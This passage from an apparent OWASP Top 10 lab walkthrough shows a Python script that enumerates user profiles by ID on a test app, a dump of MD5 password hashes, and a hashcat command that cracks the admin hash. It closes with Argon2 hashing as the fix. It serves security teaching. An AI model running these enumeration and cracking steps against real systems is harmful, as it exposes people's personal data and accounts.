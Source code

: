 #### Exploitation
```python
# Python script to enumerate all user profiles
import requests

base_url = "http://vulnerable-app.local/user/profile/"
session = requests.Session()

# Login as normal user
login_data = {"username": "testuser", "password": "password123"}
session.post("http://vulnerable-app.local/login", data=login_data)

# Enumerate user IDs
for user_id in range(1, 1000):
    response = session.get(f"{base_url}{user_id}")
    if response.status_code == 200:
        print(f"Found accessible profile: {user_id}")
        # Extract sensitive data...
```

#### Impact
- Access to other users' personal information
- Ability to modify other users' profiles
- Admin functionality accessible to regular users

## A02:2021 – Cryptographic Failures

### Lab Scenario: Password Storage Analysis
**Vulnerability**: Weak hashing algorithms and poor key management

#### Database Analysis
```sql
-- Found in the application database
SELECT username, password_hash FROM users LIMIT 5;

/* Results showing MD5 hashes (weak!) */
testuser1 | 5d41402abc4b2a76b9719d911017c592
testuser2 | 098f6bcd4621d373cade4e832627b4f6
admin     | 21232f297a57a5a743894a0e4a801fc3
```

#### Hash Cracking
```bash
# Using hashcat to crack MD5 hashes
echo "21232f297a57a5a743894a0e4a801fc3" > admin_hash.txt
hashcat -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt

# Result: admin (cracked in seconds!)
```

#### Secure Implementation
```php
// Proper password hashing in PHP
$password = "user_password";
$hash = password_hash($password, PASSWORD_ARGON2ID, [
    'memory_cost' => 65536,
    'time_cost' => 4,
    'threads' => 3
]);

// Verification
if (password_verify($password, $hash)) {
    // Authentication successful
}
```